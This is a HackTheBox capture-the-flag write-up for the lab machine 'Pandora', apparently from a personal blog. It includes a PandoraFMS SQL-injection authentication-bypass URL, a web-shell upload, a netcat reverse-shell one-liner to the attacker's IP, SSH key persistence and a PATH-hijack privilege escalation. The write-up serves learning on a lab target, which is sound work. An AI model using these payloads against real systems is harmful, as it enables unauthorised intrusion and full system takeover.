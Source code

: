 ```yaml
---
title: "HackTheBox - Pandora"
date: 2022-02-20 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO](../assets/img/Pandora/Pandora.png)

## Description
The box is available [here](https://app.hackthebox.com/machines/Pandora) if you want to try before read this write-up !

 - OS : Linux
 - Release date : 08 january 2022
 - Difficulty : easy
 - Points : 20
 - IP Adress : ```10.10.11.136```

Pandora is a nice box for beginner and interesting to learn new tools.

## Foothold
### Scanning The Box 
So first, we gonna scan the IP adress with the popular tool **Nmap** with the command :
```markdown
nmap 10.10.11.136 -sC -sV -p-
```

We have the following result :
```markdown
# Nmap 7.91 scan initiated Sun Feb 20 21:02:20 2022 as: nmap -p- -sC -sV -oA scan_nmap 10.10.11.136
Nmap scan report for Pandora.htb (10.10.11.136)
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 21:02:42 2022 -- 1 IP address (1 host up) scanned in 21.80 seconds
```
We can see there is two open ports : *HTTP* (80) and *SSH* (22).

The SSH version seems not be vulnerable to a CVE, so we gonna check the website with **Nikto** and **Gobuster**.
```markdown
nikto -h 10.10.11.136
gobuster dir --url http://10.10.11.136 -w /usr/share/wordlist/dirb/big.txt -x html,php,txt,xml,bak,zip
```

We have find some infos and files but nothing interesting.

I try to re-check my scan with **Nmap** but here, I made a *UPD-Scan* :
```markdown
nmap 10.10.11.136 -sU
```
Now, we have a new port, a UDP-port :
```markdown
161/udp open|filtered snmp   SNMPv1 server; net-snmp SNMPv3 server (public)
```
SNMP is short of *Simple Network Management Protocol*. The explaination can be find [here](https://www.manageengine.com/fr/network-monitoring/what-is-snmp.html)

### Interaction with the SNMP server  
Here we use *snmp-check*, a tool already installed in Kali-linux.
The syntax is simple: 
```markdown
snmp-check -p 161 10.10.11.136
```
After do this, we have got a long output and when we read it, we can see this interesting line:
```markdown
850                   runnable              sh                    /bin/sh               -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
```
There is a process which use credentials of the user *Daniel* !

So we can use *SSH* now !

## User Flag
First, we check the other users present in the box. There is another user who call *Matt*.
```markdown
cat /etc/paswd | grep /bin/bash
```
```markdown
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
We have no flag in our account so the user flag is in *Matt*'s account.
### Analyse the box 
We need to upgrade our lower access to a higher access to become *Matt*.

We can check the *SUID* files:
```markdown
find / -type f -perm /6000 -ls 2>/dev/null
```
We can do a ```sudo -l``` or a ```cat /etc/crontab``` too but we have nothing interesting.

We can use a popular automated tool which call [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) to check all the misconfigurations present.
But with LinPEAS, we found nothing.

We read the hosts file.
```markdown
cat /etc/hosts
127.0.0.1       localhost
```

We try to cURL the localhost with ````curl 127.0.0.1```` and there is a website made with [*PandoraFMS*](https://pandorafms.com).

### Access to the site

So we have access to the site in local only. It is the best moment to introduce the tool [**Chisel**](https://github.com/jpillora/chisel).

**Chisel** is using for port fowarding, so here, we use it to forward the local website to our machine. After upload the binary, we use the following commands:

In our machine:
```markdown
./chisel server -p 8888 -reverse
```

In *Daniel*'s machine:
```markdown
./chisel client {YOUR_IP}:8888 R:8889:localhost:80
```

Now, go in our web browser and we have access to the site.

![alt text](../assets/img/Pandora/web_pandora.jpg)

As you see, there is a login/password page. We test admin/admin ; admin/password but no result.

In the bottom, there is the version of *PandoraFMS* : ````v7.0NG.742````. Go check if there is a exploit for this version and when we search a little, we found 
a *bypass authentification* with a [Youtube Video](https://youtu.be/61KE45V7VT8). The bypass works with a *SQL injection*. Now, we are admin of the website. 

The exploit is:
```markdown
include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

### Become Matt
We need a shell as *Matt*, so we gonna upload a reverse shell in the extensions part. We can't directly upload a php file but we can bypass this with a ```.zip``` file which content our shell. 

![alt text](../assets/img/Pandora/upload_zip.png)

Now, go in ````http://localhost:8889/pandora_console/extensions/{YOUR_PAYLOAD}.php````. Here, it is a web shell because a try a reverse shell but it didn't work. After, in my web shell, I put a reverse shell with ````rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f```` and it worked. We are *Matt* !

![alt text](../assets/img/Pandora/id_matt.png)

To have a better shell, put your public *SSH* key in the ````/home/matt/.ssh/authorized_keys````. Then connect with:
```markdown
ssh -i {YOUR_PRIVATE_KEY} matt@10.10.11.136
```
And you will be in *SSH*.

![alt text](../assets/img/Pandora/id_rsa_matt.png)

## Privilege Escalation
The last step of the challenge is easy. Just made a basic enumeration and you will find a *SUID* file which call ````/usr/bin/pandora_backup````.

If we make a ````cat````, we see that the binary execute **tar**. 

To exploit this, it is really simple:
 - go in ````/tmp```` and create a file contain ````/bin/bash````. 
 - rename the file as ````tar````.
 - change the permissions 
 - export the *$PATH*

So let's do this:
```markdown
cd /tmp
echo '/bin/bash' > tar
chmod 777 tar
export PATH=/tmp:$PATH
```

When we execute the binary: 

![alt text](../assets/img/Pandora/id_root.png)

BOOM ! We are ROOT !

*Note: It really important to run this in SSH beause when I tried in a 'bad shell', it didn't work.*

## Conclusion
This box was really fun and good for the beginners because you can learn notion as *Port Forwarding*, *Privilege Escalation* and *UDP Scan*. I recommend this box, 5 stars.

Thanks for reading ! :) 

